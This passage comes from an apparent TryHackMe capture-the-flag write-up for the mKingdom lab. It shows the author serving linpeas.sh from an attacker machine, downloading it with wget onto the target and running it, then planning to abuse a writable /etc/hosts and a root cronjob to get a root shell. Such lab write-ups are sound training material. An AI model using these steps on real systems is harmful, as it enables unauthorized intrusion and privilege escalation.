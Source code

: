 ## Mario to Root

### LinPEAS

Let's copy linpeas to the target, we host a simple [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) [Server](../../3%20-%20Tags/Hacking%20Concepts/Server.md) :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/mKingdom]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

Now we download and make it executable :

```bash
mario@mkingdom:/tmp$ wget http://10.8.162.183/linpeas.sh /tmp
--2025-07-24 10:14:39--  http://10.8.162.183/linpeas.sh
Connecting to 10.8.162.183:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 954437 (932K) [text/x-sh]
Saving to: ‘linpeas.sh’

100%[======================================>] 954,437      625KB/s   in 1.5s   

2025-07-24 10:14:41 (625 KB/s) - ‘linpeas.sh’ saved [954437/954437]

mario@mkingdom:/tmp$ ls
linpeas.sh  user.txt
mario@mkingdom:/tmp$ chmod +x linpeas.sh 

```

And run it :

```bash
mario@mkingdom:/tmp$ ./linpeas.sh 

╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files                                   
  Group mario:                                                                                                                     
/tmp/linpeas.sh                                                                                                                    
/etc/hosts

```

We can write etc/hosts, during enumeration in the machine we can see also there's a cronjob hitting on the website, we can modify it and get a root [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md), first we modify the /etc/host file :

![Pasted image 20250724164322.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250724164322.png)
